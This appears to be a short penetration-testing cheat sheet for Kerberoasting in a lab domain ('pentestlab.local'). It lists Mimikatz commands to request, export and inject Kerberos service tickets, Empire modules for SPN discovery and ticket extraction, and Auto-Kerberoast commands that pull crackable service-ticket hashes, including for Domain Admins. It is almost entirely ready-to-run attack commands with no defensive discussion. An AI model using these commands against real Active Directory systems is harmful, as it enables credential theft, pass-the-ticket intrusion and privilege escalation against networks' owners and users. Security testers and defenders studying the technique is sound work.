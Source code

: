 # Mimikatz

**Service Ticket Request**
```
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
```
**List Available Tickets**
```
kerberos::list
```
**Export Service Tickets**
```
kerberos::list /export
```
**Inject Ticket**
```
kerberos::ptt PENTESTLAB.kirbi
```
# Empire

**SPN Discovery**
```
usemodule situational_awareness/network/get_spn
```
**Export Service Tickets**
```
usemodule credentials/mimikatz/extract_tickets
```
**Kerberoast**
```
usemodule credentials/invoke_kerberoast
```
# Auto-Kerberoast

**SPN Discovery**
```
List-UserSPNs
```
**Service Ticket Request & Hash Extraction**
```
Invoke-AutoKerberoast
```
**Service Ticket Request & Hash Extraction for Domain Admins**
```
Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain pentestlab.local -HashFormat John
```
